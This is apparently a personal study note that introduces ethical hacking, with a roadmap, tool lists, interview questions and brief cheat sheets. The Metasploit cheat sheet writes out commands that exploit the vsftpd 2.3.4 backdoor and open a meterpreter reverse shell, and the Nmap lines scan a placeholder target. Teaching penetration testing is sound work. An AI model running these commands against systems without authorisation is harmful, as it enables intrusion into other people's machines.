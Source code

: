 ```yaml
---
id: cxraguqcksd08zeuxoxi362
title: Selfhelp
desc: ''
updated: 1753518125180
created: 1753518119378
---
```

tags: [master, ethical-hacking, cybersecurity, pentesting, infosec, red-team]

---

## 📌 Topic Overview

**Ethical Hacking** (aka Penetration Testing) is the authorized practice of probing systems, networks, and applications for vulnerabilities — before malicious hackers find and exploit them. It’s the proactive arm of cybersecurity aimed at **identifying weaknesses and strengthening defenses**.

> Think of ethical hackers as **white-hat ninjas** hired to break in so the fortress can be better fortified.

It blends technical skills, creativity, and a deep understanding of attacker mindsets and tools.

---

## 🚀 80/20 Roadmap

| Stage | Concept                        | Why It Matters                                               |
|-------|--------------------------------|--------------------------------------------------------------|
| 1️⃣    | Reconnaissance & Footprinting | Collect info about target: IPs, domains, services             |
| 2️⃣    | Scanning & Enumeration        | Discover open ports, running services, system details         |
| 3️⃣    | Vulnerability Analysis        | Identify known exploits, misconfigurations                    |
| 4️⃣    | Exploitation                 | Gain access via vulnerabilities                               |
| 5️⃣    | Post-Exploitation            | Maintain access, escalate privileges, pivot                    |
| 6️⃣    | Reporting                   | Document findings with risk levels and remediation advice     |
| 7️⃣    | Legal & Ethical Frameworks    | Understand laws, rules of engagement, and responsible disclosure |

---

## 🛠️ Practical Tasks

- ✅ Use **Nmap** for network scanning and port discovery  
- ✅ Perform **WHOIS** and DNS enumeration for footprinting  
- ✅ Run vulnerability scanners like **OpenVAS** or **Nessus**  
- ✅ Exploit simple vulnerabilities with **Metasploit Framework**  
- ✅ Conduct password cracking with **Hydra** or **John the Ripper**  
- ✅ Analyze web apps for XSS, SQLi, and CSRF with **Burp Suite**  
- ✅ Write clear, actionable penetration test reports  
- ✅ Practice responsible disclosure and get familiar with legal boundaries  

---

## 🧾 Cheat Sheets

### ▶️ Nmap Common Commands

```bash
nmap -sS -p 1-65535 target_ip      # TCP SYN scan all ports
nmap -A target_ip                  # Aggressive scan with OS/service detection
nmap --script vuln target_ip       # Run vulnerability scripts
````

---

### ▶️ Metasploit Quick Start

```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST target_ip
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST your_ip
exploit
```

---

### ▶️ Burp Suite Workflow

1. Set browser proxy to Burp (default 127.0.0.1:8080)
2. Intercept and modify HTTP requests/responses
3. Scan for vulnerabilities with Burp Scanner (Pro)
4. Use Repeater to fuzz inputs and test attack vectors

---

## 🎯 Progressive Challenges

| Level           | Challenge                                                        |
| --------------- | ---------------------------------------------------------------- |
| 🥉 Beginner     | Scan a local network and identify open ports and services        |
| 🥈 Intermediate | Exploit a vulnerable web app using Burp Suite and manual testing |
| 🥇 Advanced     | Perform privilege escalation on a compromised machine            |
| 🏆 Expert       | Conduct a full red team engagement including phishing simulation |

---

## 🎙️ Interview Q\&A

* **Q:** What is the difference between black-box, white-box, and gray-box testing?
* **Q:** How do you stay within legal boundaries during penetration testing?
* **Q:** Explain the common attack vectors for web applications.
* **Q:** How does Metasploit simplify exploitation?
* **Q:** What tools do you use for post-exploitation?

---

## 🛣️ Next Tech Stack Recommendations

* **Kali Linux** — Ultimate pentesting OS with pre-installed tools
* **Metasploit Framework** — Exploitation and payload delivery
* **Burp Suite** — Web app security testing
* **Wireshark** — Network traffic analysis
* **John the Ripper / Hashcat** — Password cracking
* **Cobalt Strike** — Advanced adversary simulation (licensed)
* **OWASP ZAP** — Open source web vulnerability scanner

---

## 🔍 Mental Model

> “Ethical hacking is a **controlled offense** — combining hacker curiosity with a responsible mindset, systematically probing, exploiting, and reporting weaknesses before attackers do.”

* ✅ Information gathering precedes everything
* ✅ Always test within scope and with permission
* ✅ Automation + manual techniques = thorough testing
* ✅ Good reporting bridges tech and management
* ✅ Ethical hackers are defenders disguised as attackers
